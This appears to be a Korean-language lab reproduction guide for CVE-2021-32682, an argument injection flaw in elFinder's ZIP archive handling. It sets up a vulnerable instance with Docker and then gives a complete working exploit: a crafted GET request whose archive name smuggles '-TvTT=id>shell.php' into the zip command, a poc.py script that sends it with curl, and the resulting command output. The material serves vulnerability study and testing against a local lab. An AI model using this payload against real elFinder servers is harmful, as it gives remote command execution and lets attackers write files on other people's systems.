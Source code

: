 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.58 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.58을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.

`1.txt` 파일을 생성합니다.

![image](./1.png)


해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](./2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image](./3.png)


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
다음과 같은 `poc.py`를 통해 request를 전송할 수 있습니다.
```
import subprocess

cmd = '''
curl -X GET "http://127.0.0.1:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id%3Eshell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip"   -H "Host: 127.0.0.1:8080"   -H "Accept: application/json, text/javascript, */*; q=0.01"   -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"   -H "X-Requested-With: XMLHttpRequest"   -H "Referer: http://127.0.0.1:8080/"   -H "Accept-Encoding: gzip, deflate"   -H "Accept-Language: en-US,en;q=0.9"   -H "Connection: close"
'''

subprocess.run(cmd, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어를 실행하고 출력을 저장합니다.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`을 의미합니다.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw`에서 `shell.php`를 확인합니다.

![image](./4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
